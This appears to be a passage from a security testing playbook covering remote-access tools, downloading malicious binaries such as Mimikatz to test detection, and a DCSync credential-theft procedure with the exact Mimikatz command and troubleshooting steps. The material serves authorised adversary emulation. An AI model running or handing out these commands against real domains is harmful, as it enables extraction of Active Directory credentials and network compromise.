 ### Prerequisites

1. An account for the service
2. Tool client downloaded and installed
   1. TeamViewer: https://www.teamviewer.com/
   2. GoTo Resolve: https://www.goto.com/it-management/resolve
   3. ConnectWise Control: https://control.connectwise.com/

### Notes

- Where possible, use remote assistance software already in use in the environment

## Remote tool download - General guidance

Transfer tool into environment by downloading from the Internet

### Notes

- The maliciousness level of the binary should align with the intent of the test. For testing signature-based checks, use a known malicious tool, such as Mimikatz. For testing sandboxing or similar network security technologies, use an unknown yet still overtly malicious tool, such as one built around the current attack infrastructure. By default, start with the most malicious choice.

# Credential Access

## DCSync - via Mimikatz

The DCSync attack mimics normal replication behavior between DCs, allowing for remote extraction of credentials

Uses Mimikatz's lsadump::dcsync command

### Prerequisites

- Command execution in the context of an account with Active Directory replication rights
- User accounts to target
- Mimikatz binary (https://github.com/gentilkiwi/mimikatz)

### Guidance

```
mimikatz> lsadump::dcsync /domain:{{ domain }} /user:{{ target_username }}
```

### Troubleshooting

If Mimikatz is giving an error of `ERROR kuhl_m_lsadump_dcsync ; GetNCChanges: 0x00002105 (8453)`, try the following:

```
cmd> klist purge
cmd> gpupdate /force
```
